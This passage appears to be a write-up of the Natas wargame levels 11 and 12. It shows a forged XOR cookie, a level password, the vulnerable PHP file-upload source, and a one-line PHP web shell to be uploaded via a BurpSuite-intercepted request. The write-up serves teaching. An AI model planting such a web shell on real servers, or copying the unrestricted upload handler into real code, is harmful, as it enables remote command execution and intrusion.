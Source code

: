 Next I need to change create the cookie with "showpassword=yes" rather than "showpassword=no". This'll (hypothetically) make the password show. Making $key='w8Jq' and setting "showpassword=yes" yields: <b>ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK</b><br>Using this for the data cookie yields the password for the next stage.<br>
## natas12
```
natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```
Source code for the page:
```php
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```
From examinig the code, this appears to be a file upload vulnerability. A path and filename are both given, thus we are able to execute whatever file is uploaded to the server. I create a small file which yields a webshell:
```php
<?php
    system($_GET["cmd"]);
?>
```
Everytime I upload this file though, the extension gets changed into a .jpg. I open BurpSuite and capture the HTTP POST request. 
```
POST /index.php HTTP/1.1
```